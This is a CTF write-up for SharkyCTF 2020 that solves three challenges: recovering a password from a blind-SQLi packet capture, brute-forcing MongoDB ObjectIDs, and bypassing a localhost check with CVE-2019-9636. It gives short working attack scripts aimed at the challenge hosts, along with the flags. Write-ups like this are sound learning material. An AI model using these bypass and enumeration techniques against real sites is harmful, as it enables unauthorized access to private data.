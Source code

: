 # SharkyCTF 2020
I basically didn't work on this CTF much and spent my time doing other stuff :).

RGBsec got ~~3rd~~ 4th my b.


## Pain in the ass
> It looks like someone dumped our database. Please help us know what has been leaked ...
>
> Attached: pain-in-the-ass.pcapng

After waiting a while for the whole 26 MB of pcapng glory to download, we open the packets in WireShark.

It seems someone has been running a blind SQLi, and extracting the password of a user called `d4rk2phi`.

We can dump everything related to `d4rk2phi` with `strings pain-in-the-ass.pcapng > dump.txt`.

After that, we just have to match the char number and char in the blind SQLi:

```python
import re

f = open("dump.txt").readlines()

offset_regex = r"OFFSET\s\d\),(\d+)"
char_regex = r"=\s\'(.)\'"

pw = [""]*80

for i in f:
    try:
        offset = int(re.search(offset_regex, i).group(1))

        char = re.search(char_regex, i).group(1)

        pw[offset] = char
        
    except:
        pass

print(''.join(pw))
# hkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}
# IDK why the first character isn't there
```

Flag: `shkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}`


## Containment 
>Hello, welcome on "Containment Forever"! There are 2 categories of posts, only the first is available, get access to the posts on the flag category to retrieve the flag.
>
>containment-forever.sharkyctf.xyz

We are given some entries in a database, with namely their ObjectID. This reminded me of an [ACTF2018 challenge](https://www.pwndiary.com/write-ups/angstrom-ctf-2018-the-best-website-write-up-web230/). It's the same solve :).

```python
import requests

url = "http://containment-forever.sharkyctf.xyz/item/"

t1 = "5e75dab2"
t2 = "5e948a3a"
mid = "d7b160"
pid = "0013"
c = 0x655bb5

for i in range(200):
    offset = hex(c+i)[2:]

    p = requests.get(url + t1 + mid + pid + offset)
    if p.ok:
        print(url + t1 + mid + pid + offset)
        break


for i in range(200):
    offset = hex(c+i)[2:]

    p = requests.get(url + t2 + mid + pid + offset)
    if p.ok:
        print(url + t2 + mid + pid + offset)
        break
```


## Aqua world
>My friend opened this handmade aquarium blog recently and told me some strangers connected to his admin panel and he doesn't understand how it is possible.. I'm asking you to get the answer!
>
>http://aquaworld.sharkyctf.xyz/
>
>Hint: WTF this PYTHON version is deprecated!!!

From the hint we can probably assume it's going to be a "find-the-CVE" type problem.

Inspecting response headers from the page reveals the server is using `Werkzeug/1.0.1 Python/3.7.2`.

After hitting the cool green `Log in anonymously` button, we decide to visit the grayed out "Admin" link through inspect element.

![](https://i.imgur.com/fAMWkoV.png)

which takes us to `/admin-query?flag=flag`:

> Hi anonymous You need to connect locally in order to access the admin section (and get the flag) but you current netlocation (netloc) is http://aquaworld.sharkyctf.xyz

We need to somehow get the server to think that we were accessing from localhost.

My first reaction was to somehow SSRF, but there was no attack surface for that.

Going back to the hint, we search for [Python 3.7.2 CVEs](https://www.cvedetails.com/vulnerability-list/vendor_id-10210/product_id-18230/version_id-285731/Python-Python-3.7.2.html).

[CVE-2019-9636](https://www.cvedetails.com/cve/CVE-2019-9636/) jumps out immediately, as it has the word `netloc` in the description.

We can implement an attack following this thread: [https://bugs.python.org/issue36216](https://bugs.python.org/issue36216).

It's important to use a version of Python <= 3.7.2 for the solve script, which still has the bug.

I got stuck here for a while, trying every combination of the attack with the url. Eventually bAse figures out you have to put the unicode+@+localhost at the end of the netloc AND the endpoint, not just at the end of the netloc.

Also, keep the `Authorization` header unless you want a 403.

```python
import requests

headers = {
    "Authorization":"Basic YW5vbnltb3VzOmFub255bW91cw=="
}

p = requests.get("http://aquaworld.sharkyctf.xyz/admin-query\uFF03@127.0.0.1?flag=flag", headers=headers)
print(p.text)
```

Flag: `shkCTF{NFKC_normalization_can_be_dangerous!_8471b9b2da83011a07efc2899819da65}`.
